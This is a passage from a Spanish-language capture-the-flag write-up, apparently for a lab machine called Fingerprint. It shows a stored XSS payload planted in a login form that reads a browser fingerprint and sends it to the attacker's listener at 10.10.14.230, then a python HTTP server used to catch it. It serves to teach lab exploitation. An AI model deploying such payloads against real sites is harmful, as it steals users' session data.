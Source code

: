 Crearemos un script, para poder obtener el fingerprint de la sesion de la pagina anterior:

```s
nano pwn.xss

#Y dentro del archivo

<script src="http://fingerprint.htb:8080/resources/js/login.js"> </script>
<script>
document.write("<img src=http://10.10.14.230/");
document.write(getFingerPrintID());
document.write("></img");
</script>
```

Este script sera el que usaremos para insertar en el formulario de la pagina con puerto 8080.


![Script steal](/assets/images/fingerprint/script_steal_cred.png)

Y ahora podemos abrir una shell con python

```s
sudo python3 -m http.server 80 
```

![Fingerprint captured](/assets/images/fingerprint/fingerprint_capture.png)

Tenemos ahora el fingerprint y podemos usarlo en el response, de la sigueinte manera

A continuacion, la muestra de la alerta del fingerprint invalido.

![Invalid Fingerprint](/assets/images/fingerprint/invalid_fingerprint.png)
